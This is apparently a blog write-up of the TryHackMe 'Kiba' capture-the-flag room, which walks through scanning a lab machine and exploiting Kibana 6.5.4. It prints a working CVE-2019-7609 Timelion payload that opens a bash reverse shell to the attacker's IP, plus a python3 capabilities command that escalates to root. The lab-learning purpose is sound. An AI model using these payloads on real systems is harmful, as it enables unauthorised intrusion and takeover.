 ```yaml
---
layout: post
title: "kiba"
date: 2022-10-21
categories: [Tryhackme, Easy-THM]
tags: [rustscan, kibana, CVE-2019-7609, capabilities]
image: ../../assets/img/posts/kiba.png 

---
```


## Description

Identify the critical security flaw in the data visualization dashboard, that allows execute remote code execution.

|**Room**|[kiba](https://tryhackme.com/room/kiba)|
|:---:|:---:|
|**OS**|Linux|
|**Difficulty**|Easy|
|**Creator**|[stuxnet](https://tryhackme.com/p/stuxnet)|

---

Starting off with deploying the machine and quickly scanning the open ports with rustscan,

```bash
rustscan -a 10.10.63.199 --ulimit 5000
```

![image](https://user-images.githubusercontent.com/67465230/186398079-467a0746-510a-42d5-b2e8-d6a245b885aa.png)

We got the open ports and now we can scan them in detail using nmap,

```bash
sudo nmap -sCVS -p22,80,5044,5601 10.10.63.199 -oN nmap.log
```

![image](https://user-images.githubusercontent.com/67465230/186398125-efb8c5e0-d067-4a06-9d23-21ab9b7f066f.png)
![image](https://user-images.githubusercontent.com/67465230/186398160-4c1c2e8d-8977-4033-a7f8-16f311274f79.png)

Result scan shows that port 22 is running SSH service, port 80 is running apache webserver, port 5044 is running unknown service and seeing port 5601 carefully, it shows the software name **Kibana** (maybe it's running kibana software). 

Let's begin enumeration with port 80 by visiting http://10.10.63.199,

![image](https://user-images.githubusercontent.com/67465230/186398208-baad541c-50e5-4f97-a3ad-291bee784f5c.png)

we can see a webpage with almost nothing interesting to us. 

So I decided to fire-off the gobuster to fuzz hidden directories, 

```bash
gobuster dir -u http://10.10.63.199/ -w /usr/share/seclists/Discovery/Web-Content/common.txt -q 2>/dev/null -o gobuster.log
```

![image](https://user-images.githubusercontent.com/67465230/186398247-291bd6b0-1aab-44f5-aaba-b002fd7cd04f.png)

Getting results back with no useful stuffs there for us. But wait! What are we going to do now as we don't have any clue what to enumerate? Well, we'll now enumerate port 5601.

Let's visit http://10.10.63.199:5601 and we'll get redirected to home page of kibana software,

![image](https://user-images.githubusercontent.com/67465230/186398283-46e32f8b-1ec5-4caa-b0b0-00029dfeb623.png)

After clicking on **Try our sample data**, we get the kibana dashboard,

![image](https://user-images.githubusercontent.com/67465230/186398329-f59e2085-77cb-4bee-a1ec-34fb645be068.png)

After enumerating the whole website, I find an interesting section, **Dev Tools** on which we can run a JavaScript code,

```js
GET _search
{
	"query": {
		"match all": {}
	}
}
```

![image](https://user-images.githubusercontent.com/67465230/186398371-3a41aeb1-5dc8-4d72-bb2a-4250092cc501.png)

after running this code, we can see the kibana software version, *6.5.4* (highlighted in green).

Next, I found the exploit for Kibana 6.5.4 on github,

![image](https://user-images.githubusercontent.com/67465230/186398410-49712449-1622-4800-9099-4eabdea8424d.png)

> **CVE-2019-7609** : Kibana versions before 5.6.15 and 6.6.1 contain an arbitrary code execution flaw in the Timelion visualizer. An attacker with access to the Timelion application could send a request that will attempt to execute javascript code. This could possibly lead to an attacker executing arbitrary commands with permissions of the Kibana process on the host system.

```md
# Steps to get reverse shell on the target:
- Open Kibana
- Paste one of the following payload into the Timelion visualizer
- Click run
- On the left panel click on Canvas
- Your reverse shell should pop ! :)
```

Now, we'll navigate to Timelion tab,

![image](https://user-images.githubusercontent.com/67465230/186398543-20c418dd-75f4-486b-94b2-95f4c2533fd8.png)

Start the listener using `nc -nvlp 4444` and paste the one of the following payload into the Timelion visualizer (replacing IP and Port) and click on run. After that, we need to click on Canvas tab and we can see that we got a reverse shell,

```js
.es(*).props(label.__proto__.env.AAAA='require("child_process").exec("bash -c \'bash -i>& /dev/tcp/10.9.4.81/4444 0>&1\'");//')
.props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')
```

![image](https://user-images.githubusercontent.com/67465230/186398594-163afab9-2e90-41c8-8e5d-c5cbc9402e2e.png)

Since we got an unstable shell, we can make it stable using couple of commands,

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
CTRL + Z
stty raw -echo; fg
stty rows 38 columns 116
```

Enumerating directory and we got the user flag, 

![image](https://user-images.githubusercontent.com/67465230/186398632-a17c752a-36c0-42d2-9e16-fdc5df2d962b.png)

Now, comes the Privilege Escalation with [[Escalation Path via Capabilities]]. 

We can list all the capabilities on system using,

```bash
getcap -r / 2>/dev/null
```

![image](https://user-images.githubusercontent.com/67465230/186398677-99c00c42-3b08-49b9-9c6d-0f7be54ae43d.png)

**/home/kiba/.hackmeplease/python3** binary has capability set. 

So we can abuse [Python Capabilities](https://gtfobins.github.io/gtfobins/python/#capabilities) and get the system access,

![image](https://user-images.githubusercontent.com/67465230/186398723-7b68adbe-b5e6-479c-9b9d-c7a676b06908.png)

Now, running this command and we will get the system access and then we can get the root flag,

```bash
/home/kiba/.hackmeplease/python3 -c 'import os; os.setuid(0); os.system("/bin/sh")'
```

![image](https://user-images.githubusercontent.com/67465230/186398793-31c161ef-538f-496b-aa9b-7c6448f9bf53.png)
